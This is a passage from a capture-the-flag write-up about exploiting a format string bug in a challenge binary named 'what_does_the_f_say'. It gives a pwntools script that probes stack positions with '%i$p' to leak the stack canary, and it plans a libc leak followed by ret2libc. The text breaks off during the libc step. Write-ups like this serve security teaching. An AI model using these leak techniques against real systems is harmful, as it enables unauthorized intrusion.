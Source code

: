 So there 2 things we need to do:

1. Use the format string vulnerability to leak the stack canary.
2. Use the format string vulnerability to leak the base address of the `libc` library and where it is loaded.
3. Afterwards, abuse Ret2Libc to defeat NX.

## Exploitation

### Leaking Canary

In Linux binaries, the canaries always end with `00`. We can create a simple `for` loop with `pwntools` to the different 'positions' using `$x%p`. `x` in this case is a whole number, and it indicates which 'position' we are leaking (for example, `$7%p` would point to the 7th position).&#x20;

```python
from pwn import *

def canary():
	for i in range(1, 50):
		p = process('./what_does_the_f_say')
		p.recv()
		p.sendline("1")
		p.recv()
		p.sendline("2")
		p.recv()
		p.sendline(f"%{i}$p")	
		print(f"Offset: {i}")
		print(p.recv())
		p.close()

def main():
	canary()
	#libc()
	#shell()

main()
```

We can pipe the output to a file and read the address retrieved from each position. I found that the offset of 23 returned an address ending with 00, which means it must be the stack canary!

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Leaking Libc + Finding Libc

Next, we need to figure out a way to leak the `libc` address. My thinking is that this address should come after the stack canary, so I started fuzzing positions after it.&#x20;
